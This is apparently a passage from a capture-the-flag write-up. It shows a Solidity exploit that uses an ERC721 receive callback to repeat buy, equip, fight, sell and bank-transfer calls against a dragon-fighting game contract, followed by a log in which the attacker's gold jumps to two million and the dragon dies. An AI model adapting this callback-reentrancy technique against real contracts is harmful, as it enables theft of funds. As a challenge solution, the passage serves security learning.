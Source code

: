 ```solidity
            Sh.buyItem(3);
            I.safeTransferFrom(address(this), address(K), 3, 1, new bytes(0));
            I.safeTransferFrom(address(this), address(K), 4, 1, new bytes(0));
            K.equipItem(4);
            K.equipItem(3);
            K.fightDragon(); //Weird as fuck should one oneshot here
            K.fightDragon();
            K.sellItem(3);
            K.sellItem(4);
            emit log_named_uint(
                "The number of gold piece",
                G.balanceOf(address(K)) / 1 ether
            );
            K.bankDeposit(2_000_000 ether);
            K.bankTransferPartial(4, 2_000_000 ether, 1);

            emit log_named_uint("Health of the Dragon", D.health());
            emit log_named_uint("Health of the knight", K.health());
        }

        increment++;
        return this.onERC721Received.selector;
    }

    function onERC1155Received(
        address,
        address,
        uint256,
        uint256,
        bytes calldata
    ) public pure returns (bytes4) {
        return this.onERC1155Received.selector;
    }
}

```
Results of the payload: 
```bash
Script ran successfully.
== Logs ==
  The Knight address: 0x7aacc5300ec7ac58fe86645d08f21b1becadf99a
  Health of the knight: 10
  Health of the Dragon: 1000000
  The number of gold piece of BANK: 0
  The number of gold piece: 10
  The number of gold piece: 2000010
  Health of the Dragon: 0
  Health of the knight: 10

  ```
